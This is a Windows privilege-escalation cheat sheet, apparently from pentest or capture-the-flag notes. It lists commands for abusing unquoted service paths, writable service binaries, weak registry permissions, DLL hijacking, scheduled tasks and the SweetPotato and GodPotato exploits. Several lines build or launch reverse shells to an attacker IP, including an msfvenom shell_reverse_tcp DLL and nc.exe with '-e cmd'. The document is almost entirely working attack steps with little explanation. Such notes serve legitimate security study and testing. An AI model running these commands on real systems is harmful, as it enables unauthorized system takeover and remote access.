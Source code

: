 ##### Unquoted Service Path

```powershell
PS C:\> wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
PS C:\> icalcs "path" # check for writeable permission
# Replace the executable in the service folder and start the service
PS C:\> sc start <servicename>
```

##### Insecure Service Executables

```powershell
PS C:\> icalcs "path" # File Permissions: Everyone [AllAccess]
# Replace the executable in the service folder and start the service
PS C:\> sc start <service>
```

##### Weak Registry Permissions

```powershell
PS C:\> accesschk /acceptula -uvwqk HKLM\system\currentcontrolset\services\<service> # Check for KEY_ALL_ACCESS
PS C:\> reg query HKLM\system\currentcontrolset\services\<service>
PS C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\<service> /v ImagePath /t REG_EXPAND_SZ /d reverse.exe /f
PS C:\> net start <service>
```

##### DLL Hijacking

```powershell
# use Procmon to check for missing dlls (“NAME NOT FOUND”)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attaker-IP> LPORT=<listening-port> -f dll > filename.dll
```

##### Scheduled Tasks

```powershell
PS C:\> schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
PS C:\> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
PS C:\> schtasks /query /fo LIST | Where-Object {$_ -like "TaskName*"} | select-string "privilege"
PS C:\> icalcs <path> # need to be writeable
```

### Privilege Escalation

```powershell
# https://github.com/CCob/SweetPotato
PS C:\> .\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "$KALI_IP 1234 -e cmd"

# https://github.com/BeichenDream/GodPotato/releases
PS C:\> .\GodPotato.exe -cmd "cmd /c whoami"
PS C:\> .\GodPotato.exe -cmd "shell.exe"
```
